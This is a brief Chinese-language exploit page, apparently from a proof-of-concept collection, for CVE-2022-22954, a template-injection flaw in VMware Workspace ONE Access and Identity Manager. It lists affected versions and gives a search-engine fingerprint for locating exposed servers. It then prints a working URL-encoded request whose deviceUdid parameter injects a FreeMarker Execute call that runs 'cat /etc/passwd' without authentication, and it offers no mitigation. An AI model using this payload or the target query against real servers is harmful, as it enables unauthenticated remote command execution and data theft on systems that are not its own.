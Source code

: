 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

```
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
```

## 网络测绘

```
app="vmware-Workspace-ONE-Access"
```

## 漏洞复现

登录页面

![image-20220524132528721](images/202205241325815.png)

验证POC

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![image-20220524132657968](images/202205241326167.png)